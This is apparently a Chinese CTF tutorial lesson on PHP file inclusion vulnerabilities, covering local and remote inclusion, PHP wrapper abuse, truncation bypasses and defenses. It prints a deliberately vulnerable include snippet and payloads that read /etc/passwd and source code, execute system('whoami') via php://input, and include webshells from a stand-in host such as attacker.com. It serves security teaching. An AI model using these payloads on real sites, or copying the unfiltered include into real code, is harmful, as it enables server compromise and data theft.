









# CTF教程：P57：文件包含漏洞详解 🎯



在本节课中，我们将要学习CTF中一种常见的Web漏洞——文件包含漏洞。我们将从概念、类型、利用方式到防御措施，系统地了解这一漏洞的原理与实践。

## 漏洞概述

文件包含是开发人员将需要重复调用的函数写入一个单独的文件，并在需要时通过特定函数引入该文件的操作。这样做可以减少代码冗余，降低维护难度，并保持网站风格统一。

然而，当包含文件的函数（如 `include`）其加载的参数未经严格过滤或定义，可以被攻击者控制时，就会产生文件包含漏洞。攻击者可以利用此漏洞包含并执行非预期的文件或代码。

一段典型的漏洞代码如下：
```php
<?php
$file = $_GET['file'];
include($file);
?>
```
在这段代码中，`file` 参数通过GET请求直接传入 `include` 函数，且未经过滤。攻击者可以通过构造URL（例如 `?file=evil.php`）来控制包含的文件。





## 漏洞类型及其利用

文件包含漏洞主要分为两种类型：本地文件包含和远程文件包含。

### 本地文件包含

本地文件包含是指被包含的文件位于服务器本地。其利用方式多样，以下是几种常见方法。

**包含系统敏感文件**
攻击者可以尝试包含服务器上的敏感文件，如系统配置文件，以获取信息。
```
?file=../../../../etc/passwd
```





**包含上传的文件**
如果网站存在文件上传功能且上传路径已知，攻击者可以上传一个包含恶意代码的文件（即使后缀名被限制，如 `.jpg`），然后通过LFI漏洞包含该文件。只要文件内容符合PHP语法，就会被解析执行。
```php
// 假设上传了名为 shell.jpg 的文件，内容为：
<?php phpinfo(); ?>
```
包含此文件：`?file=uploads/shell.jpg`

**利用PHP协议**
PHP提供了多种封装协议，可以用于文件包含。

*   **`file://` 协议**：直接读取本地文件内容。
    ```
    ?file=file:///C:/windows/win.ini
    ```
*   **`php://filter` 协议**：用于读取文件源码，特别是当直接包含PHP文件会被解析执行时。常用它来获取源代码进行审计。
    ```
    ?file=php://filter/convert.base64-encode/resource=index.php
    ```
    此Payload会以Base64编码的形式读取 `index.php` 的源代码，解码后即可查看。

*   **`zip://` 或 `phar://` 协议**：可以访问压缩包内的子文件。这在绕过上传限制时可能有用。例如，上传一个包含恶意PHP文件的ZIP压缩包（后缀改为 `.jpg`），然后包含其中的文件。
    ```
    // 假设上传了 evil.zip（内含 shell.php），重命名为 evil.jpg
    ?file=phar://./uploads/evil.jpg/shell.php
    ```

### 远程文件包含

远程文件包含是指可以包含远程服务器上的文件。其利用条件更为苛刻，需要PHP配置中 `allow_url_fopen` 和 `allow_url_include` 两个选项均为 `On`（后者在PHP 5.2后默认关闭）。

**直接包含远程文件**
攻击者可以在自己控制的服务器上放置一个恶意文件，然后通过RFI漏洞让目标服务器包含并执行它。
```
?file=http://attacker.com/shell.txt
```

**利用 `php://input` 协议**
此协议允许将POST请求的原始数据作为PHP代码执行。即使 `allow_url_fopen` 关闭，只要 `allow_url_include` 开启，也可能利用。
```
URL: ?file=php://input
POST Data: <?php system('whoami'); ?>
```




**利用 `data://` 协议**
此协议允许直接包含经过编码的数据流。
```
?file=data://text/plain,<?php phpinfo();?>
// 或使用Base64编码
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

## 绕过技巧

在实际场景中，开发者可能会添加一些防御措施，例如为包含的文件路径添加固定前缀或后缀。

**截断绕过**
在旧版本PHP中，可以利用 `%00`（空字节）进行截断，使系统忽略其后的后缀。
```
?file=../../../evil.php%00
```
（需 `magic_quotes_gpc=off` 且 PHP 版本 < 5.3.4）

**路径长度截断**
在Windows系统下，当路径长度超过256字节时，超出的部分会被丢弃。攻击者可以构造超长的 `../` 来“挤掉”后缀。
```
?file=../../../[大量的../]../../../evil.php
```

**利用问号 `?`**
在远程文件包含中，可以在URL后添加问号，使后续内容被当作查询参数而非路径的一部分。
```
?file=http://attacker.com/shell.php?.txt
```

## 漏洞危害与防御

### 危害
1.  **敏感信息泄露**：读取服务器上的配置文件、日志、源代码等。
2.  **执行任意代码**：通过包含恶意文件或利用协议执行系统命令。
3.  **获取服务器权限**：结合文件上传等功能，写入Webshell，最终控制服务器。

### 防御措施
1.  **避免动态包含**：尽量不要使用变量动态生成包含的文件路径。如果必须使用，应严格限制。
2.  **设置白名单**：对包含的文件名进行严格检查，只允许包含预设的、安全的文件。
3.  **过滤危险字符**：严格检查用户输入，过滤 `../`、`..\` 等目录遍历字符。
4.  **关闭危险配置**：在 `php.ini` 中确保 `allow_url_fopen` 和 `allow_url_include` 设置为 `Off`。
5.  **设置包含目录限制**：使用 `open_basedir` 指令限制PHP可以访问的文件系统目录。
6.  **服务端验证**：所有关键的安全检查都应在服务端进行，不能依赖客户端验证。





## 总结





本节课我们一起学习了文件包含漏洞。我们从其产生原因讲起，深入探讨了本地文件包含与远程文件包含两种类型，并介绍了多种利用协议和绕过技巧。最后，我们分析了该漏洞可能造成的严重危害，并给出了相应的防御建议。理解并掌握文件包含漏洞，对于CTF Web方向的学习和实际安全审计都至关重要。